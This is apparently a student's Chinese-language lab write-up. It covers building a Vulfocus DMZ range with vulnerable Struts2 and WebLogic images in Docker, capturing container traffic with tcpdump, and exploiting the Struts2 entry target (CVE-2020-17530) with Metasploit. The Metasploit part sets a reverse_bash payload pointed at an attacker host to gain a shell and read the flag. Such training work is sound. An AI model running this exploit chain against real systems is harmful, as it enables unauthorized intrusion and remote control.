 # 网络空间安全实践
### vulfocus 环境搭建
#### docker安装
参考https://www.kali.org/docs/containers/installing-docker-on-kali/
![alt text](9f0946f209c0a0a861afc6a8cb638aa.png)
安装后输入
```
docker --version
```
命令查看docker版本
![alt text](ef616d2d1277b0db9fb1c9d924b0b37.png)

#### 拉取vulfocus镜像

在此运行拉取命令
```
docker pull vulfocus/vulfocus:latest
```
成功拉取。
![alt text](1742182423584.png)
使用bash start.sh命令运行容器启动后需要选择LOCAL_IP，直接默认回车使用NAT网络下IP地址，成功运行


接着使用主机浏览器访问虚拟机的ip进入vulfocus首页
![1742182557941](image/1/1742182557941.png)
完成vulfocus环境的搭建
## DMZ环境搭建
### 网卡创建
首先根据下面的步骤依次建立两个网卡,网卡的名称为DMA和核心网，不和虚拟机网卡重复即可已经有的重名网卡。需要进行删除![alt text](wk.png)![alt text](rm.png)
### DMZ场景编排
对 DMZ.zip解压后可以发现，其中包含了去创建一个场景所需的所有信息，包括网卡信息和镜像配置等信息

首先确定需要的镜像有哪些：
```
cat raw-content.json | jq . | grep image_name
```
可知需要安装是三个不同的镜像文件：
```
vulshare/nginx-php-flag:latest
vulfocus/struts2-cve_2020_17530:latest
vulfocus/weblogic-cve_2019_2725:latest
```
其中第一个镜像存在运行问题，需要替换为:
```
c4pr1c3/vulshare_nginx-php-flag
```
执行docker pull命令拉取镜像，然后再通过 Vulfocus 的 GUI 界面导入本地镜像
![1742183040177](image/1/1742183040177.png)
完成镜像拉取后，在环境编排管理页面中进行编排，详情如下：![alt text](hj.png)
需将第一个端口进行开放
![1742183192887](image/1/1742183192887.png)
完成后进行保存并发布，即可在环境中开始
![alt text](fb.png)
![alt text](yx.png)
将访问地址替换为虚拟机的ip即可进行web访问
![alt text](web.png)
### 流量捕获
在启动了场景之后，可以通过下面的命令开启对 struts2-cve_2020_17530的流量捕获
```
container_name="<替换为目标容器名称或ID>"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```
该命令在当前路径下创建了一个 tcpdump目录，并且将对指定容器监控的流量捕获到目录中
![alt text](jt.png)

## DMZ入口标靶
入口靶标页面如下，记录目标 ip 和端口号
![alt text](web-1.png)
192.168.37.5 端口号 30667
进入攻击机，更新并初始化 metasploit
```
sudo apt install -y metasploit-framework
sudo msfdb init
```
![alt text](ini.png)
由于已经知道了漏洞为 struts2代码执行漏洞，所以进行相关搜索搜索：
```
search struts2 type:exploit
search S2-059 type:exploit
```
![alt text](search1.png)![alt text](search.png)
使用 info可以指定序号或名称查看详情
```
info 0
```
使用 use可以使用指定的exp
```
use 0
```
使用 show options可以查看exp的详细参数配置,使用 show payloads可以查看可用 exp payloads：
```
show options
show payloads
```
![alt text](pay.png)
![alt text](<use option.png>)
选择一个需要的 payload使用并根据参数列表的内容修改靶机和攻击机的参数
```
set payload payload/cmd/unix/reverse_bash   #设置payload
set RHOSTS 192.168.37.5  #靶机IP
set RPORT  30667   #靶机目标端口  
set LHOST  192.168.131.6   #攻击者主机IP 
```
![alt text](set.png)
执行攻击
```
run -j 
```
使用 sessions命令查看列表，打开 shell执行命令
```
sessions -l
```
使用sessions -1获取所有活动的会话
```
sessions -i 2
```
使用sessions -i -2与会话2进行交互即可得到flag

### 靶标发现